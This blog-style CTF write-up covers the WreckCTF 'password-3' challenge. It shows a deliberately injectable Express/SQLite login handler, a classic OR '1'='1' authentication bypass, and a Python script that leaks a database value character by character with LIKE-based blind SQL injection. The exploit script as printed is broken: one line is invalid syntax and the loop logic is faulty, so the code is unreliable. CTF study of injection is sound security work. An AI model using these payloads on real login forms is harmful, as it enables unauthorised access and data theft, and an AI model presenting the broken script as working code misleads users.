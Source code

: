 ```yaml
---
layout: post
current: post
cover:  False
navigation: True
title: "password-3"
date: 2022-11-03 10:00:00
tags: [WRECKCTF]
class: post-template
subclass: 'post'
author: ZeroDayTea
---
```


A quick but interesting proof-of-concept demonstrating that security by obscurity does not and will never work. Even if you don't show reflected feedback from SQL commands, your database is still not safe. 

## The Challenge

We are presented with a standard login page looking mighty submissive and pwnable and containing only a single password field. Let's take a look at the server-side code:
```js
const crypto = require('crypto')
const database = require('better-sqlite3')
const express = require('express')
const app = express()

FLAG = process.env.FLAG ?? 'flag{testflag}'
const db = new database(':memory:')
const id = () => crypto.randomBytes(16).toString('hex')

app.use(express.static('public'))
app.use(express.json())

app.post('/password', (req, res) => {
    const password = (req.body.password ?? '').toString()
    const result = db.prepare(
        `SELECT password FROM passwords WHERE password='${password}';`
    ).get()

    if (result) res.json({
        success: true,
        message: (
            'Congrats on logging in! However, that\'s not enough... can you ' +
            'find the flag in the database this time?'
        ),
    })
    else res.json({ success: false })
})

db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)

  

app.listen(3000)
```

And here's what the JavaScript looks like on the frontend:
```js
form.addEventListener('submit', async (event) => {
	event.preventDefault();
	const input = document.querySelector('input[type="text"]');
	const response = await fetch('/password', {
	  method: 'POST',
	  headers: { 'content-type': 'application/json' },
	  body: JSON.stringify({ password: input.value }),

	})

	const result = await response.json()
	if (result.success) {
	  const content = document.querySelector('.content')
	  content.textContent = result.message;
	} else {
	  input.removeAttribute('style');
	  input.offsetWidth;
	  input.style.animation = 'shake 0.25s';
	}
  });
```

We can see that after clicking the `Login` button, our password field data will be sent over to the server endpoint `/password` and processed using the SQL select string ```
```SQL
SELECT password FROM passwords WHERE password='${password}';`.
```

Trying the standard authentication bypass string `admin' OR '1'='1';--` and logging in we are able to see the message 
 `Congrats on logging in! However, that's not enough... can you find the flag in the database this time?`

Looking more closely at the provided source code, we see:
```js
FLAG = process.env.FLAG ?? 'flag{testflag}'
...
db.exec(`
    CREATE TABLE passwords (
        password TEXT
    );

  

    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${id()}');
    INSERT INTO passwords (password) VALUES ('${FLAG}');
`)
```

The flag we are looking for is loaded in from an environment variable as is standard and INSERTed into the sqlite3 database. With seemingly no feedback from our SQL injections, however, we'll have to think of a more creative way to leak the passwords table in the database!

## Thinking About The Problem and SQL
One piece of feedback we do get is whether or not our SQL injection string did in fact run successfully and match something in the database or not. If we could somehow send a SQL injection that would return true if our input was similar to or LIKE one of the actual passwords in the database, we could bruteforce the password character by character.

Thankfully, SQL has the aptly named `LIKE` operator that does just this. We can use the LIKE operator in conjunction with the `%` wildcard character to match the flag in the database character by character, with the server returning a valid logged-in `true` response only if our guess is similar to the flag in the `passwords` table.

Our exploit string should look something along the lines of `' OR password LIKE '[guess]%` utilizing the previously selected `password` variable in the first half of the statement as well as the already provided ending single quote `'`; at the end of the statement.

## The Exploit
Here's a quick bruteforce script to run this exploit iteratively on the `/password` endpoint:

```python
import requests 

possibilities = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#Z^&*()" 

#flag = flag{whee_binary_search_sqli}
flag = "flag{"
url = "https://password-3.challs.wreckctf.com/password" 
payload = "" 

while True: 
    for char in possibilities: 
        print("Trying: " + flag + payload + char) 
        password = f"' OR password LIKE '{flag + payload + char}%" 
        print(password) 
        r = requests.post(url, json={"password": password}) 
        print(r.text) 
        if r.text.find("Congrats") != -1: 
            payload += char if payload[-1] == "}": 
            exit() 
        break
```

This implementation isn't entirely complete as it breaks at the last character and I had to manually add the ending curly brace `}` for the flag, but it nonetheless iterates through all the previous characters and gets the necessary part of the flag.

## Challenge Analysis
This was a quick and simple challenge, but quite an interesting one that highlights a key issue in many developers' intuition. Just because a hacker can't see the output of your SQL commands and other backend maneuvers does not necessarily mean they won't be able to expose sensitive information from the backend.

The challenge provided us with the source code for the server, making it almost immediately apparent what had to be done. However, even without source code, this kind of a vulnerability would be easy to catch given a form submission on any website or API running on a SQL database backend. It could also easily be *escalated* to read data from other tables on the database if not secured properly, leading to much larger-scale data leaks than a single flag in a single table.